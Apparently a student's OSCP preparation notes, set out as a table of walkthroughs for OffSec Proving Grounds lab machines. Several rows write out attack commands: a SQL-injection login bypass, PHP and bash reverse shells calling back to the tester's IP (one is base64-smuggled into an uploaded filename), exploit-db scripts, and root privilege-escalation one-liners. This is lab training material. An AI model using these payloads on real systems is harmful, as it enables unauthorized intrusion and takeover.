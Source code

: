 |Cockpit |Intermediate |In nmap scan 3 ports are open ssh, port 80 and port 9090 ssl zeus-admin don't find exploits, Initially bruteforce directires with feroxbuster, gobuster in port 80 and 9090(/ping API is there) don't find interesting but when try to do with when try with gobuster with extenions ```-x txt,php``` found the extention of /login.php when i try to use single quote some sql related error, their must be a sql injection so tried ```'OR '' = '``` and the offsec used ```admin'-- -``` bypass the showed me some james, cameron credentials decrypt with base64 the loggedin as port 9090 their is system terminal click on accounts the James their is public SSH keys, **ssh-keygen -t ECDSA -f james_ecdsa** generated a ssh kets with the command then copied the .pub file data in the website then looged as james user with private key, sudo -l permission has tar.gz then here is the [commands](https://github.com/ashok5141/OSCP/blob/main/OSCP%20Commands.md#sudo--l-permission-with-usrbintar--czvf-tmpbackuptargz-) the article [referred](https://medium.com/@Dpsypher/proving-grounds-practice-cockpit-7e777892e485) |
|Codo |Easy | Their are 2 ports are open ssh, http it has codologic website it's loggedin with default admin:admin credentials the is [exploitDB](https://www.exploit-db.com/exploits/50978), dirst i ran that their is an error, so explored that code 50978 it has /admin path loggedin with same credentials in the global settings added file extension accept php in the **Allowed Upload types(comma separated)** as well uploaded in **Upload logo for your forum**  php-reverse-shell.php, initially it was error fatal error with 110, revert the machine and change the port it worked then accessed the path written the 50978 code ```/sites/default/assets/img/attachments/php-reverse-shell.php``` then identified the codelogic configuration path ```/var/www/html/sites/default/config.php``` their is a password find username in /etc/passwd the password worked for root user. |
|Crane |Easy |Their are ports are open ssh, HTTP, 3306 mssql unauthorized with port suiteCMS 7.12.3 found exploitdb not worked tried in [github](https://github.com/manuelz120/CVE-2022-23940/tree/main), code ```python3 exploit.py -h http://192.168.197.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.248\", 8443);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"``` it has sudo -l with service got root shell with ```sudo /usr/sbin/service ../../bin/sh``` boom root  |
|Levram |Easy |Their are 2 ports ssh,http port 8000 Gerapy [50640](https://www.exploit-db.com/exploits/50640) exploit ```python3 50640.py -t 192.168.114.24 -p 8000 -L 192.168.45.248 -P 8080``` got shell in the same terminal for privesc 2 ways First way ```getcap -r / 2>/dev/null``` their is python3.10 got root shell with ```/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'```, other way is ```systemctl status app``` theis is root password in ```cat /etc/systemd/system/app.service``` loggedin as root with the password|
|Extplorer |Intermediate |Their are 2 ports open ssh, port 80 http wordpress configuration page, with directory bruteforcing with dirb found filemanager login page, with default admin:admin creds loggedin then filemanager -> config -> .htusers.php found user dora password cracked with john then wp-admin directory uploaded pentestmonkey php reverse shell access through http://IP/wp-admin/reverse-shell.php got www-data user access to netcat switched dora user using password when type id command it has 6(disk) then disk privilege escalation ```debugfs /dev/mapper/ubuntu--vg-ubuntu--lv``` got shell able to read the shadow file and proof.txt, in the shadow file read password of root then john cracked the password switched to root [commands](https://github.com/ashok5141/OSCP/blob/main/OSCP%20Commands.md#disk-group-linux-privesc-devmapperubuntu--vg-ubuntu--lv)|
|Hub |Easy |Their are few ports are open 22, 80 http ,8082 http,9999 ssl/http https server type BarracudaServer.com,  in port 80 don't have any services 403, port 8082 in the about page FuguHub 8.4 exploit, found the exploit [FuguHub 8.1](https://www.exploit-db.com/exploits/51550), changed few ports 443 to 8082 and and created username and password according to the script fils changed to just /fs/, after that got shell with command ```python3 51550.py -r 192.168.243.25 -rp 8082 -l 192.168.45.248 -p 80``` |
|Image |Easy |Their are 2 ports are open with 22, http with ImageMagick Identifier their a [article](https://github.com/ImageMagick/ImageMagick/issues/6339), first create a image with with command ```echo -ne test > en.png``` the add the bash rev shell of pentest monkey with base64 encryption ```cp en.png '<pipe>en"`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjI0OC84MDgwIDA+JjE= <pipe> base64 -d <pipe> bash`".png'```, do ls command you'll see lot of file name make sure properly check single and double quotes endings uploaded in web got the shell with suid privileges theis is strace with the command ```strace -o /dev/null /bin/sh -p``` got root peivileges |
|Lav | | |
|Lavita | | |
|PC | | |
|Fired | | |
|Press | | |
|Scrutiny | | |
|RubyDome | | |
|Zipper | | |
|Flu | | |
|Ochima | | |
|PyLoader | | |
|Plum | | |



# Offsec Proving Ground Play

## Offsec Proving Ground Play - Linux
| Name | Level | Description|
|:-|:-|:-|
|eLection | | |
|Stapler | | |
|Monitoring  | |
|InsanityHosting | | |
|DriftingBlue6 | | |
|Loly | | |
|Blogger | | |
|Amaterasu | | |
|Blogger | | |
|Potato | | |
|DC-9	| | |
